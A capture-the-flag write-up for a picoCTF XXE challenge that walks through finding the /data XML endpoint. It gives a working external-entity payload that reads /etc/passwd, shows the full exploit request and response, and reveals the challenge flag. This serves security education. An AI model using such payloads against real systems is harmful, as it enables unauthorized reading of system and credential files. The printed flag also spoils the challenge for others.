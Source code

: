 # XXE Vulnerability Exploitation: Reading /etc/passwd

## Challenge Overview
The web project was deployed without proper security assessment, leaving it vulnerable to XML External Entity (XXE) attacks. This vulnerability allows us to read sensitive system files like `/etc/passwd`.

## Discovery Process
1. **Initial Analysis**: The website processes XML data through a POST endpoint
2. **Code Inspection** (F12 → Sources in Chrome):
   - Found two relevant JavaScript files confirming XML processing:
     - `detailsCheck.js`
     - `xmlDetailsCheckPayload.js`
3. **Endpoint Identification**: The `index.html` file reveals the vulnerable endpoint at `/data`

## Vulnerability Confirmation
The application's XML parser processes external entities without proper restrictions, making it susceptible to XXE attacks.

## Exploitation Steps
1. **Intercept Normal Request**:
   - Clicking the site button reveals the expected XML format in the Network tab

2. **Craft Malicious XML Payload**:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data><ID>&xxe;</ID></data>
```

3. **Send Exploit Request**:
```http
POST /data HTTP/1.1
Host: saturn.picoctf.net:54611
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Content-Length: 136

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data><ID>&xxe;</ID></data>
```

4. **Successful Exploit Response**:
```http
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 1023

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}
```
![image](https://github.com/user-attachments/assets/6292c2b7-37e0-4c65-be99-663c73c3a6d1)

## Solution
By exploiting the XXE vulnerability, we successfully:
1. Retrieved the contents of `/etc/passwd`
2. Found the flag in the picoctf user entry: `picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}`

